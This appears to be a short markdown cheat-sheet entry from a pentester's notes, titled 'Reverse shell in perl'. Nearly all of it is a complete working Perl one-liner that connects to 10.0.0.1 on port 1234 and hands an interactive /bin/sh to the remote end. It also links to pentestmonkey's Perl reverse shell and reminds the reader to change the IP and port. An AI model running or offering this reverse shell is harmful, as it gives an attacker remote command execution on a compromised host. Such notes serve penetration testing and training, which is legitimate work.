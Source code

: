 ```yaml
---
category: Uncategorized
tags: []
---
```

### Reverse shell in perl
``perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'``

http://pentestmonkey.net/tools/web-shells/perl-reverse-shell
This is a perl program which can be downloaded and modified to call back to you. (Remember to change IP + PORT)